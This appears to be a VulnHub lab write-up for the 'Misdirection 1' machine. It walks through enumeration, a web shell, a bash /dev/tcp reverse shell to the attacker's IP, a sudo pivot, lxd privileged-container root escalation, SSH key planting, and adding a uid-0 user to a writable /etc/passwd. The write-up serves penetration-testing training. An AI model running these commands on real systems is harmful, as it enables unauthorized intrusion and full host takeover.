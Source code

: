 +++
title = "Vulnub: Misdirection 1"
date = "2021-04-21"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Sudo", "lxd", "Writeable Passwd"]
keywords = ["", ""]
description = ""
showFullContent = false
draft = false
+++

<!--more-->
{{< image src="/img/misdirection1/misdirection.png" alt="" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ |
| Beginner | 24 Sep 2019 | FalconSpy | 

## Summary

For this box, initial access was a web shell discovered. Then with low priv shell we could run bash as brexit user
and were able to pivot to that account. Once we are brexit user, we abuse his membership to the lxd to start a 
privileged container that can read and write the whole file system by mounting it in the container.

## Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.191.136
Host is up (0.00032s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
## Enumeration

### 8080 (HTTP)

Nmap

```sh
# Nmap 7.91 scan initiated Wed Apr 14 06:31:44 2021 as: nmap -n -Pn -sV -p 8080 --script default,http-enum,http-shellshock,http-backup-finder,http-config-backup --append-output -oN recon-misdirection1/misdirection1-8080-httpnmap.enum 192.168.191.136
Nmap scan report for 192.168.191.136
Host is up (0.00026s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum:
|   /wordpress/: Blog
|   /wordpress/wp-login.php: Wordpress login page.
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /debug/: Potentially interesting folder
|   /development/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /help/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /manual/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

ffuf

```sh
ffuf -ic -c -u http://192.168.191.136:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 50 
```

```sh
js                      [Status: 301, Size: 322, Words: 20, Lines: 10]
help                    [Status: 301, Size: 324, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 329, Words: 20, Lines: 10]
manual                  [Status: 301, Size: 326, Words: 20, Lines: 10]
debug                   [Status: 301, Size: 325, Words: 20, Lines: 10]
development             [Status: 301, Size: 331, Words: 20, Lines: 10]
shell                   [Status: 301, Size: 325, Words: 20, Lines: 10]
images                  [Status: 301, Size: 326, Words: 20, Lines: 10]
css                     [Status: 301, Size: 323, Words: 20, Lines: 10]
scripts                 [Status: 301, Size: 327, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 305, Words: 22, Lines: 12]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376]
```

After some directory bruteforcing on both port 80 and 8080 I discovered several directories. On port 8080 the debug directory
contains a web shell.

{{< image src="/img/misdirection1/misdirection-1.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as www-data

Supplying the following command we are able to get a reverse shell.

```sh
bash -c 'bash -i >& /dev/tcp/192.168.191.1/9000 0>&1 &'
```
shell:

{{< image src="/img/misdirection1/misdirection-2.png" alt="" position="center" style="border-radius: 8px;" >}}

After some basic enumeration we discover www-data has sudo permissions to run /bin/bash as brexit user without
any password requirement.

{{< image src="/img/misdirection1/misdirection-3.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as brexit

```sh
sudo -u brexit /bin/bash
```

{{< image src="/img/misdirection1/misdirection-4.png" alt="" position="center" style="border-radius: 8px;" >}}

On running id we see that brexit is in the lxd group and no images are present.

{{< image src="/img/misdirection1/misdirection-10.png" alt="" position="center" style="border-radius: 8px;" >}}

## Shell as root

Brexit being in the lxd group allows for privilege escalation. First we need to add am image then create a container.

First we need to get distrobuilder, the compile it. This uses go to compile therefore you need go to be installed.

```sh
wget https://github.com/lxc/distrobuilder/archive/refs/tags/distrobuilder-1.2.zip
7z x distrobuilder-1.2.zip
cd distrobuilder-distrobuilder-1.2 
make
```

You can use go get as the repo instructions recommend but for me it didn't work as expected.

With distrobuilder ready, download the alpine image yaml file to build a small alpine image for lxd

```sh
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
```
Then run distrobuilder with the alpine yaml file as below.

```sh
sudo ~/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```
This will result in two files: lxd.tar.xz and rootfs.squashfs.

We then need to transfer this two files to our victim for privesc.

```sh
# on kali

python3 -m http.server

# on victim

wget 192.168.191.1:8000/lxd.tar.xz
wget 192.168.191.1:8000/rootfs.squashfs
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
```

{{< image src="/img/misdirection1/misdirection-5.png" alt="" position="center" style="border-radius: 8px;" >}}

After adding the image we need to run lxd init and can keep everything default.

```sh
lxd init
```

{{< image src="/img/misdirection1/misdirection-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Then create the container to be privileged and mount the host os file system inside it.

```sh
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```
With this we can read the host file system from inside the container and can read root.txt.

{{< image src="/img/misdirection1/misdirection-8.png" alt="" position="center" style="border-radius: 8px;" >}}

To get shell as root I added a public key to authorized_keys of the root user and can ssh in as root.

{{< image src="/img/misdirection1/misdirection-9.png" alt="" position="center" style="border-radius: 8px;" >}}

## Extras

After looking at other writeups, there was another easy privesc that I didn't explore.

- Writeable /etc/passwd file

The passwd file is writeable by the users in the brexit group.

{{< image src="/img/misdirection1/misdirection-11.png" alt="" position="center" style="border-radius: 8px;" >}}

We can add user with id 0 that will give us root privileges.

```sh
openssl passwd -1 -salt user password123

echo 'user:$1$user$nY3qj2koDQU1.5HG4ZTj9/:0:0:User:/root:/bin/bash' >>/etc/passwd
```

{{< image src="/img/misdirection1/misdirection-12.png" alt="" position="center" style="border-radius: 8px;" >}}

## References

```
https://rioasmara.com/2021/01/29/privilege-escalation-with-lxd/

https://www.hackingarticles.in/lxd-privilege-escalation/

https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-etc-passwd
```

